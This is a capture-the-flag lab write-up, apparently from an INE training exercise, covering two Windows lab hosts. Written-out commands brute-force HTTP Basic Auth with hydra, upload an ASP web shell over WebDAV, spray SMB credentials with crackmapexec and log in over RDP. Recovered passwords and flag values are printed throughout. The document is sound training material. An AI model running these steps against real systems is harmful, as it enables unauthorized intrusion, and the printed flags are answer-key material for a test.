




## Tasks



---
## target1.ine.local — Enumeration

```
nmap -sC -sV target1.ine.local
```

```
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
| http-auth:
|_  Basic realm=target1.ine.local
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

---
## Flag 1

> _User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located._

HTTP Basic Auth on port 80 is brute-forced for user `bob`:

```
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      target1.ine.local http-get /
```

```
[80][http-get] host: target1.ine.local   login: bob   password: password_123321
```

Directory fuzzing with the recovered credentials reveals a `/webdav` endpoint:

```
gobuster dir -u http://target1.ine.local \
             -w /usr/share/wordlists/dirb/big.txt \
             -U bob -P password_123321
```

```
/aspnet_client  [Status: 301]
/webdav         [Status: 301]
```

```
curl -u bob:password_123321 -s http://target1.ine.local/webdav/flag1.txt
4906bd791d234d02935ae4931a370e87
```

---
## Flag 2

> _Valuable files are often on the C: drive. Explore it thoroughly._

WebDAV write access allows uploading an ASP web shell:

```
cadaver http://target1.ine.local
Username: bob

dav:/> put /usr/share/webshells/asp/webshell.asp
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

The web shell is used to read `C:\flag2.txt` via `type c:\flag2.txt`:



```
1df435fb9b5546cd8075a2c55325e832
```

---
## target2.ine.local — Enumeration

```
nmap -sC -sV target2.ine.local
```

```
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Datacenter 17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| smb-security-mode:
|_  message_signing: disabled (dangerous, but default)
```

---
## Flag 3

> _By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag._

Credential spraying against SMB:

```
crackmapexec smb target2.ine.local \
  -u /usr/share/metasploit-framework/data/wordlists/common_users.txt \
  -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
  | grep "+"
```

```
[+] EC2AMAZ-3SC2DRK\rooty:spongebob
```

RDP access is established with the retrieved credentials:

```
xfreerdp /u:rooty /p:spongebob /v:target2.ine.local
```

`flag3.txt` is found at the root of `C:\`:



```
cc56776f675448c9976d9970db6961be
```

---
## Flag 4

> _The Desktop directory might have what you're looking for. Enumerate its contents._

Browsing to `C:\Users\Administrator\Desktop` via the RDP session reveals `flag4.txt`:



```
eb7c6c07334146e7a88e2d2078b990ea
```

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|HTTP Basic Auth brute-force|`4906bd791d234d02935ae4931a370e87`|
|2|target1|WebDAV shell upload + RCE|`1df435fb9b5546cd8075a2c55325e832`|
|3|target2|SMB credential spray + RDP|`cc56776f675448c9976d9970db6961be`|
|4|target2|RDP filesystem enumeration|`eb7c6c07334146e7a88e2d2078b990ea`|